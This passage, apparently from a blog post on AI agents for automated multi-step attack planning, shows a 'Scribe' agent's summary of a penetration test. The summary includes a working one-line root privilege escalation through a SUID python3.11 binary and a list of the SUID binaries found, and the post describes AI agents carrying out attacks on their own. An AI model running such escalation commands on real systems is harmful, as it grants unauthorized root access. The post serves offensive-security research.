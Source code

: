 ``` markdown

    ## Privilege Escalation
    - Successful privilege escalation to root using SUID binary `/usr/bin/python3.11`.
    - Command used: `python3.11 -c 'import os; os.setuid(0); os.system("/bin/bash")'`.

    ## SUID Binaries
    - Identified SUID binaries:
    - `/usr/bin/python3.11` (used for privilege escalation)
    - `/usr/bin/newgrp`
    - `/usr/bin/chfn`
    - `/usr/bin/gpasswd`
    - `/usr/bin/chsh`
    - `/usr/bin/passwd`
    - `/usr/bin/sudo`
    - `/usr/bin/mount`
    - `/usr/bin/su`
    - `/usr/bin/find`
    - `/usr/bin/umount`
    - `/usr/lib/openssh/ssh-keysign`
    - `/usr/lib/dbus-1.0/dbus-daemon-launch-helper`

    ## Next Steps
    - Verify system access and capabilities as root.
    - Document any additional findings or configurations.
```
The Scribe agent was able to reduce the vast output of our tool calls into a concise fact sheet. Depending on the recursion-limit we set to our executor this can be the result of multiple thousend lines of command line output.

This structured approach to note-taking paves the way for more sophisticated and efficient planning mechanisms, setting the stage for future advancements in our journey to multi-step attack planning. As we continue to refine and expand our system, the Scribe will undoubtedly play a pivotal role in ensuring that our agents remain informed, agile, and capable of tackling increasingly complex tasks.


